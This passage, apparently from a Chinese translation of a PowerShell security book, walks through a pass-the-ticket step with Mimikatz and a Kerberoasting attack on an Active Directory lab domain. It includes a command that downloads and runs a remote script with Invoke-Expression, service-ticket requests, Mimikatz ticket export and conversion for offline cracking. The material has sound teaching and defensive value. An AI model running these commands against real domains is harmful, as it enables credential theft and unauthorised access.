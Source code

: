 图 6.12 – 导出的域管理员票据

现在，我们可以通过以下命令将其中一个票据加载到我们的会话中：

```
> kerberos::ptt [0;2856bf]-2-0-40e10000-administrator@krbtgt-PSSEC.LOCAL.kirbi
> misc::cmd
```

`misc::cmd` 命令允许你打开一个 `cmd` 命令行，你可以在这里继续进行其他操作。

### Kerberoasting 攻击

`Kerberoasting` 是一种攻击方式，涉及利用 Kerberos 认证协议中的漏洞。在这种攻击中，攻击者可以从使用 Kerberos 认证的服务账户中提取密码哈希，并利用这些哈希尝试离线破解密码。一旦攻击者成功破解密码，他们可以使用该密码获得对其他系统和敏感数据的未授权访问。

为了执行 Kerberoasting 攻击，攻击者通常从识别使用 Kerberos 认证的服务账户开始。这些账户通常有与之关联的 SPN。Tim Medin 写了一个脚本，可以帮助你识别具有 SPN 的账户，你可以从 GitHub 下载并执行该脚本：

```
> Invoke-Expression (Invoke-WebRequest -UseBasicParsing "https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1")
```

以下截图展示了我们如何运行该脚本并找到具有设置 SPN 的 `IIS-User` 账户：

![图 6.13 – 使用 SPN 获取账户](img/B16679_06_013.jpg)

图 6.13 – 使用 SPN 获取账户

攻击者随后从 Kerberos 认证服务请求服务账户的 TGT，如下所示：

```
> Add-Type -AssemblyName System.IdentityModel
> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList IIS-User/server.PSSec.local:80
```

一旦攻击者获得了服务票据，他们可以使用 Mimikatz 或类似工具提取票据的加密哈希。使用 Mimikatz，你可以通过 `kerberos::list /****export` 命令提取票据。

所有可用的票据将被提取到你运行 `mimikatz.exe` 的文件夹中，并带有 `.kirbi` 文件扩展名。

在攻击者尝试从票据哈希中破解密码之前，需要先进行转换。`EmpireProject` 中的 `Invoke-Kerberoast.ps1` 脚本提供了一个非常方便的方法来实现这一点。该脚本可以从 [`github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1`](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1) 下载。
